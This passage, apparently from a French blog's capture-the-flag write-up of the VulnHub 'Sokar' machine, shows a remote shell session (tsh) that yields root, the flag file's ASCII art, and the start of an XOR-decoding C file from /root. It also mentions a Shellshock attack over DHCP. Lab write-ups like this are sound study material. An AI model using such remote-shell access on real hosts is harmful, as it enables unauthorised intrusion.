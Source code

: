 ![Sokar shellshocked via DHCP](https://github.com/devl00p/blog/raw/master/images/sokar/capt3.png)

Facile... mais sans grands intérêts.  

```plain
$ ./tsh 192.168.1.63
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# cd /root
sh-4.1# ls
build.c  flag
sh-4.1# cat flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
```

Au passage dans /root on trouve le code C suivant qui va vous permettre de mieux comprendre l'autre solution :  

```c
#include <stdio.h>
#include <string.h>

void encryptDecrypt(char *input, char *output) {
        char key[] = {'I'};

        int i;
        for(i = 0; i < strlen(input); i++) {
                output[i] = input[i] ^ key[i % (sizeof(key)/sizeof(char))];
        }
}

int main (int argc, char *argv[]) {

        char baseStr[] = "f<:;f+ 'f. =i*%&',i::!sff;&&= :&\"(;d-,?sf;&&=f:,*;,=d9;&#,*=if$'=f:,*;,=d9;&#,*=f";

```